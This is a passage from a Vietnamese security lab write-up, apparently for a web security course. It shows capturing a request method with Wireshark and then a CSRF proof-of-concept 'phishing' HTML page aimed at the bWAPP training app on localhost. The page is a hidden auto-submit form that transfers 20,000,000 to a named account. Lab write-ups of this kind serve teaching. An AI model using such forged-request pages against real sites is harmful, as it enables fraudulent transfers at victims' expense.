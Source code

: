 Tiếp tục capture với Wireshark để lấy method, sau đó xài payload tương ứng trong phishing html:

![image](https://github.com/NVex0/Cong_nghe_web_an_toan/assets/113530029/8cbba0fb-f672-4e3f-862e-602773d43530)

Method là GET. HTML sẽ như sau:

```
<html>
<body>
<script>history.pushState('', '', '/')</script>
<form action="http://localhost/bwapp/csrf_2.php">
<input type="hidden" name="account" value="TranManhHung" />
<input type="hidden" name="amount" value="20000000" />
<input type="hidden" name="action" value="transfer" />
<input type="submit" value="Submit request" />
</form>
</body>
</html>
```


